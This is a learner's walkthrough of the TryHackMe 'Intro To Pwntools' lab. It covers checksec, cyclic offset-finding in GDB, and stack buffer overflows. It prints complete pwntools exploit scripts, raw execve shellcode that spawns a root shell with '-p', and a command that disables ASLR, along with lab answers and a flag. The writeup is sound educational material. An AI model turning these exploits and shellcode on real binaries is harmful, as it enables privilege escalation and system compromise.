<div align="center">

# 💥 TryHackMe — Intro To Pwntools

**"An introductory room for the binary exploit toolkit Pwntools."**


</div>


---

## 📋 Room Info

| Field | Value |
|---|---|
| **Platform** | TryHackMe |
| **Room** | Intro To Pwntools |
| **Format** | Guided walkthrough, 3 sections: Cyclic → Networking → Shellcraft |
| **Tools Used** | `checksec`, `gdb` + `pwndbg`, `cyclic`, Python `pwntools`, `shellcraft` |
| **Date Completed** | August 2026 |

> 🎯 **This is my first real pwn/binary exploitation room.** This writeup is written as a full personal reference — the goal is that if I come back to this in six months having forgotten everything, reading this top to bottom rebuilds the entire mental model from scratch, not just "here's what I typed."

---

## 🧠 Concept Glossary — Read This First

Before any of the three sections make sense, these terms need to click. I'm defining them once here instead of re-explaining mid-writeup.

| Term | Plain-English Meaning |
|---|---|
| **Buffer overflow** | Sending more data into a fixed-size memory space than it was designed to hold, so the extra data spills into adjacent memory |
| **EIP** | The CPU register that holds the **address of the next instruction to execute** (32-bit systems). If you can control what's in EIP, you control what the program does next — this is the entire goal of a buffer overflow exploit |
| **ESP** | The **stack pointer** — points to the top of the stack (the current "working area" of memory). Matters because we often want to jump *into* the stack, near where ESP points |
| **Stack canary** | A random value planted between your data and the return address. If an overflow corrupts it, the program detects tampering and self-terminates ("stack smashing detected") before the exploit can succeed — named "canary" after canaries used in coal mines as an early-warning system |
| **NX (No-eXecute)** | A protection that marks memory regions (like the stack) as **non-executable** — meant to stop exactly the kind of "inject and run your own code" attack this room teaches. If NX is disabled, code planted on the stack can actually run |
| **PIE (Position Independent Executable)** | Randomizes where the *program itself* loads in memory each run, making hardcoded addresses unreliable |
| **ASLR (Address Space Layout Randomization)** | The OS-level version of the same idea — randomizes where memory regions (stack, heap, libraries) load each time the program runs. Must be disabled for predictable addresses to work during learning/practice |
| **RELRO** | Protects certain memory tables from being overwritten after the program starts — less relevant to this room's stack-based attacks specifically |
| **`checksec`** | The tool that reports all of the above protections for a given binary in one shot — always the first command to run on any target binary |
| **Cyclic pattern** | A unique, non-repeating sequence of characters (e.g. `aaaabaaacaaa...`) generated by `pwntools`. Since every 4-byte chunk in the pattern is unique, if the program crashes with a specific 4 bytes sitting in EIP, you can look up *exactly* where in your input that chunk came from — telling you precisely how many bytes you need before you reach EIP |
| **Shellcode** | Raw machine code instructions, hand-crafted or generated, injected directly into a vulnerable program's memory so the CPU executes *your* instructions instead of the program's own |
| **NOP sled** | A long run of `0x90` (the "do nothing, move to next instruction" opcode) placed before shellcode. Since jumping to the *exact* byte of your shellcode is unreliable, you instead land anywhere in a big "landing pad" of NOPs, which harmlessly slides execution forward until it hits your real shellcode |
| **`p32()`** | A `pwntools` helper that packs a Python integer into raw 4-byte little-endian format — the exact byte format the CPU expects for a 32-bit address |

---

## 🔧 Section 1 — Cyclic (Finding the Offset)

### intro2pwn1 vs intro2pwn2 — seeing protections in action, before touching any exploit

```bash
checksec intro2pwn1
checksec intro2pwn2
```



**The key comparison:**

| | intro2pwn1 | intro2pwn2 |
|---|---|---|
| Stack canary | ✅ Found | ❌ Not found |
| Crash behavior on overflow | `*** stack smashing detected ***: terminated` | `Segmentation fault (core dumped)` |

**Why this matters — this is the whole point of the exercise:** intro2pwn1 has a canary, so the moment we overflow the buffer, the corrupted canary is detected and the program safely kills itself — **no exploitation possible**, that's the protection working as designed. intro2pwn2 has **no canary**, so the overflow just corrupts memory silently until the CPU tries to execute garbage and crashes with a raw segfault — **this is what a genuinely exploitable binary looks like.**

---

### intro2pwn3 — actually finding the offset

```bash
checksec intro2pwn3
```



No canary again — confirmed exploitable. Time to find *exactly* how many bytes it takes to reach EIP.

**First attempt — a full alphabet as input:**
```gdb
gdb intro2pwn3
pwndbg> r < alphabet
```



Crashed at `0x4a4a4a4a` — in ASCII, `0x4a` = `'J'`, so this reads as `'JJJJ'`. This confirms the overflow *does* reach EIP and gives us a rough idea (somewhere in the "J" region of the alphabet), but not the exact byte offset — brute-force reading an alphabet file to count exact position is slow and error-prone. This is exactly the problem `cyclic` solves.

**Generating a proper cyclic pattern:**
```bash
cyclic 100
cyclic 12
```



Output: `aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa...` — every 4-character chunk in this sequence is **globally unique** across the whole pattern. That uniqueness is the entire trick: whatever 4 bytes end up in EIP when the program crashes, there's only one possible position in the pattern they could have come from.

```bash
cyclic 100 > pattern
gdb intro2pwn3
pwndbg> r < pattern
```



This time EIP landed on `0x6161616a`, which reads in ASCII as `'jaaa'` (note: displayed in this byte order due to little-endian memory storage). Instead of manually counting characters, `pwntools` looks this exact chunk up for us:

```python
cyclic_find('jaaa')
```

This instantly returns the **exact byte offset** — the precise number of junk bytes needed before our real payload starts controlling EIP.

**Building the actual exploit script:**

```python
from pwn import *

padding = cyclic(cyclic_find('jaaa'))
eip = p32(0xdeadbeef)
payload = padding + eip

print(payload)
```



**What this script does, in plain terms:** `padding` is exactly enough junk bytes to fill the buffer up to (but not including) EIP — calculated automatically instead of guessed. `eip = p32(0xdeadbeef)` packs our chosen value into the correct 4-byte format and appends it right where EIP will land. Running this against the binary means **we now fully control what value ends up in EIP** — the foundational skill every other exploit in this room builds on.

### 📝 Cyclic Section — Questions & Answers

| Question | Answer |
|---|---|
| Which user owns both `flag.txt` and `intro2pwn3`? | `dizmas` *(confirmed — GDB output shows "I run as dizmas")* |
| Use checksec on intro2pwn3. What bird-themed protection is missing? | **Canary** *(the stack canary, named after canaries used in mining as an early-warning system)* |
| What ASCII letter sequence is `0x4a4a4a4a`? | `JJJJ` |
| What is the output of `cyclic 12`? | `aaaabaaacaaa` |
| What pattern, in hex, was EIP overflowed with? | `0x6161616a` (`'jaaa'`) |
| Flag (after overflowing EIP with `0xdeadbeef`) | *Not captured in my screenshots — need to re-run and grab this on a future pass* |

---

## 🌐 Section 2 — Networking (Remote Exploitation)

### Understanding the target

The vulnerable C code (`test_networking.c` / `serve_test`) defines a struct like this:

```c
struct targets {
    char buff[32];         // MAX = 32
    volatile int printflag;
};
```

Because `buff` and `printflag` sit **right next to each other on the stack**, overflowing `buff` by exactly the right amount lets us overwrite `printflag` directly — and the code checks: if `printflag == 0xdeadbeef`, it sends the flag over the network.

**Why this is a step up from Section 1:** this time the target isn't running locally in GDB — it's a live network service. `pwntools` handles this with the `remote()` function instead of `process()`.

### Building the networking exploit

```python
from pwn import *

connect = remote('127.0.0.1', 1336)

# The prompt "Give me deadbeef: " is 18 bytes — receive exactly that many
print(connect.recvn(18))

# buff is 32 bytes — fill it completely, then overwrite printflag right after
payload = b"A"*32
payload += p32(0xdeadbeef)

connect.send(payload)

# The flag response is 34 bytes long
print(connect.recvn(34))
```

**Why `recvn()` instead of `recvline()`:** `recvline()` waits for a newline character to know when to stop reading — but this service doesn't send one, so `recvline()` would hang forever. `recvn(bytes)` reads an **exact known number of bytes** instead, which works regardless of newlines.

### Running it — test port first, then the real port

```bash
python3 exploit.py
```



First run (port 1336, my own local test server) confirmed the exploit logic worked correctly. Then I updated the port to the real challenge port and got the actual flag back over the network — same exploit code, just pointed at a different target, which is exactly the point of testing locally first.

**Flag:** `flag{n3tw0rk!ng_!$_fun}`

### 📝 Networking Section — Questions & Answers

| Question | Answer |
|---|---|
| What port is serving our challenge? | `1337` *(confirmed by the working exploit run)* |
| Use checksec on `serve_test`. Is there a stack canary? | *Not confirmed in my screenshots — didn't capture this specific check, worth re-running* |
| I have run my exploit against my own server on port 1336 | ✅ Confirmed |
| What is the flag? | `flag{n3tw0rk!ng_!$_fun}` |

---

## 🐚 Section 3 — Shellcraft (Getting an Actual Root Shell)

This is the big one — instead of just controlling EIP, the goal is to **inject and execute our own code** to spawn a root shell.

### Step 1 — Disable ASLR

The room's note instructed disabling ASLR first — without this, the stack address changes every run, making a hardcoded jump target useless. (Standard command for this: `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`.)

### Step 2 — Find the EIP offset (same cyclic technique as Section 1)

```bash
cyclic 300 > pattern.txt
gdb intro2pwnFinal
pwndbg> run < pattern.txt
```



EIP landed on `0x61616174` → `'taaa'`. Same exact logic as before: `cyclic_find(b'taaa')` gives the precise offset needed.

### Step 3 — Confirm control with a breakpoint (before writing real shellcode)

```python
from pwn import *

padding = cyclic(cyclic_find(b'taaa'))
eip = p32(0xffffd510 + 200)
nop_slide = b"\x90" * 1000
shellcode = b"\xcc"   # 0xCC = breakpoint instruction — used here just to confirm control

payload = padding + eip + nop_slide + shellcode
```



**Why `eip = p32(0xffffd510 + 200)` and not just the raw ESP address:** ESP points to the *very top* of the stack. If we jump exactly there, we're more likely to land on the tail end of our own return-address overwrite rather than the middle of our NOP sled. Adding an offset (`+200`, found through trial and error — this varies per binary) aims for somewhere comfortably in the *middle* of the NOP sled instead, maximizing the chance of a clean landing.

**Why the `\xcc` breakpoint first, before real shellcode:** this is a controlled way to verify the whole chain (offset → EIP → NOP slide → landing) actually works, *before* risking a more complex payload. If the program hits our breakpoint instruction as expected, we know execution really did travel through our NOP sled successfully.

```bash
python3 payload.py > output
./intro2pwnFinal < output
```



Output: `Trace/breakpoint trap (core dumped)` — **exactly what we wanted.** This confirms full control of execution flow before ever writing real shellcode.

### Step 4 — Generating real shellcode with `shellcraft`

```bash
shellcraft i386.linux.sh -f a
```



The output's first comment line reads: `/* execve(path='/bin///sh', argv=['sh'], envp=0) */` — meaning the underlying Unix system call being used here is **`execve`**, the standard call for "replace this process with a new program" (in this case, spawning a shell).

**The `-p` privilege snag:** a plain shell drops elevated privileges by default unless explicitly told not to. So the actual shellcode generation adds `'-p'` to the argument array:

```bash
shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f s
```

This produces the final raw shellcode string, ready to paste directly into the exploit.

### Step 5 — The complete, final exploit

```python
from pwn import *

proc = process('./intro2pwnFinal')
proc.recvline()

padding = cyclic(cyclic_find(b'taaa'))
eip = p32(0xffffd510 + 200)
nop_slide = b"\x90" * 1000
shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode
proc.sendline(payload)
proc.interactive()
```



**Reading this end-to-end, in order of execution:**
1. `padding` — exact junk bytes to reach EIP (same offset technique as always)
2. `eip` — redirected to land somewhere in the middle of our NOP sled on the stack
3. `nop_slide` — 1000 bytes of "do nothing," giving the jump a wide, forgiving landing zone
4. `shellcode` — the real payload: an `execve` call spawning `/bin/sh` with `-p` to preserve root privileges
5. `proc.interactive()` — hands control of the now-spawned shell directly to me, turning the exploit script into a live terminal session

### 📝 Shellcraft Section — Questions & Answers

| Question | Answer |
|---|---|
| What does ASLR stand for? | Address Space Layout Randomization |
| Who owns `intro2pwnFinal`? | *Inferred as root (the binary is set up as a privilege-escalation target, and the exploit specifically preserves privileges with `-p`), but not directly confirmed via a captured `ls -l` screenshot* |
| Use checksec on `intro2pwnFinal`. Is NX enabled? | **N** — has to be disabled, since the entire exploit depends on executing injected shellcode directly from the stack; if NX were enabled, this attack would be blocked outright |
| Letter sequence that fills EIP (cyclic + GDB) | `taaa` |
| Output when hitting the breakpoint outside GDB | `Trace/breakpoint trap (core dumped)` |
| Function used by `shellcraft i386.linux.sh -f a` | `execve` |
| Output of `whoami` after getting the shell | *Expected to be `root` based on the room's goal — not captured directly in my screenshots* |
| Final flag | *Not captured in my screenshots — need to grab this on a follow-up run* |

---

## 🧠 Full Lessons Learned

- **Protections exist in layers, and each one changes what a crash even looks like.** A canary turns an overflow into a clean, safe termination; its absence turns the exact same overflow into full control of execution. Reading *how* something crashes is diagnostic information, not just noise.
- **`cyclic` replaces manual offset-counting with something reliable and repeatable.** Trying to count "how many A's until it crashes" by hand doesn't scale — a unique pattern plus a lookup function does.
- **Confirm control before committing to a complex payload.** The `\xcc` breakpoint step wasn't strictly necessary to get the flag, but it turned "did my whole chain of reasoning actually work?" into a yes/no answer *before* debugging a much more complex shellcode payload blind.
- **NX and stack-executing shellcode are directly opposed** — understanding *why* NX has to be off for this specific technique to work (rather than just following steps) is what makes this transferable knowledge instead of memorized commands.
- **This is genuinely the deep end of what I've done so far** — noticeably harder than Reversing ELF, and that's expected; pwn is a different skill tier. Some answers above are marked unconfirmed rather than guessed — that's intentional, since guessing and writing it as fact would make this reference worse, not better, for future-me.

---

## 🛠️ Skills Demonstrated

`Binary Protection Analysis (checksec)` · `Stack Canary / NX / ASLR Concepts` · `GDB + pwndbg` · `Cyclic Pattern Offset-Finding` · `EIP Control` · `Remote Exploitation (pwntools)` · `Shellcode Injection` · `NOP Sled Construction` · `execve Syscall Shellcraft` · `Privilege-Preserving Shell Spawning`

---

## 📚 References

- [Pwntools Documentation](https://docs.pwntools.com/)
- [GDB + pwndbg](https://github.com/pwndbg/pwndbg)
- [Buffer Overflows Made Easy — TCM Security (YouTube Playlist)](https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN)
- [x86 NOP Sled — Wikipedia](https://en.wikipedia.org/wiki/NOP_slide)
